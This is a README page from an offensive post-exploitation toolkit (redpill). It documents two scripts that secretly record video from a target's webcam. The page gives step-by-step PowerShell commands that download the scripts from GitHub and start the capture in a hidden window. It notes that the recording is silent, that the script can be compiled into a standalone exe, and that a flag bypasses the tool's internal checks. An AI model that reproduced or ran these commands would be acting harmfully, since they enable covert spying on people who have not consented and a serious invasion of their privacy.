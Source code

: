 ## WebCam.py

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[WebCam](https://github.com/r00t-3xp10it/redpill/blob/main/lib/WebCam-Capture/WebCam.py)|Capture video (AVI) using default target webcam|User Land|Credits: @AHLASaad \ @AvinabSaha<br />[write-a-video-using-opencv-python](https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python)|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WebCam-Capture/WebCam.py" -OutFile "WebCam.py"
```

<br />

**prerequesites checks:**
```powershell
#Check if Pthon3 its installed
[bool](python3 -V)

#Check if opencv its installed
[bool](pip3 list|findstr /C:"opencv-python")

[OPTIONAL] #Install opencv and numpy modules
pip3 install opencv-python
```

<br />

**execute:**
```powershell
#Search for python 'site-packages' directory
gci "$Env:LOCALAPPDATA\Programs" -Recurse -Force|?{$_.PSIsContainer -Match "True" -and $_.Name -iMatch 'site-packages'}

#Edit WebCam.py and change next cmdline to point to your 'python\site-packages' directory
#Remark: remmenber to add double backslashs to your path ( eg. C:\\path\\path\\path\\path )
sys.path.append("c:\\users\\pedro\\appdata\\local\\programs\\python\\python39\\lib\\site-packages")

#Start capture
Start-Process -WindowStyle hidden python3 -ArgumentList "WebCam.py"

#Stop capture
Stop-Process -Name "python3.*" -Force
```

<br />

**Final Notes:**
```powershell
Video recording its stored on WebCam.py current directory under the name: "outpy.avi"
WebCam.py can be compiled to exe using pyinstaller: pyinstaller –onefile "WebCam.py"
```

<br /><br />


## Invoke-WebCamAvi.ps1

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-WebCamAvi](https://github.com/r00t-3xp10it/redpill/blob/main/lib/WebCam-Capture/Invoke-webcamAvi.ps1)|Capture video (AVI) using default target webcam|User Land|Credits: @AHLASaad \ @AvinabSaha<br />[write-a-video-using-opencv-python](https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python)|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WebCam-Capture/Invoke-webcamAvi.ps1" -OutFile "Invoke-webcamAvi.ps1"
```

<br />

**Prerequesites tests:**
```powershell
#Mandatory requirement
[bool](python3 -V)
```

<br />

**run cmdlet:**
```powershell
#Get module help
Get-Help .\Invoke-webcamAvi.ps1 -full

#Record webcam live stream for 15 seconds time
.\Invoke-webcamAvi.ps1 -RecTime '15'

#Record webcam live and use %TMP% as working directory
.\Invoke-webcamAvi.ps1 -WorkingDir "$Env:TMP"

#Record webcam live and auto-start AVI file after finish?
.\Invoke-webcamAvi.ps1 -AutoView 'true'

#Bypass cmdlet internal tests and force execution?
.\Invoke-WebCamAvi.ps1 -force 'true'
```

<br />

**Final Notes:**
```powershell
Remark: Python3 its mandatory requiremente to run cmdlet..
Invoke-webcamAvi cmdlet automates the execution of 'WebCam.py' and python packages dependencies.

Video recording (silent) its stored on cmdlet working directory under the name of: "outpy.avi"
```
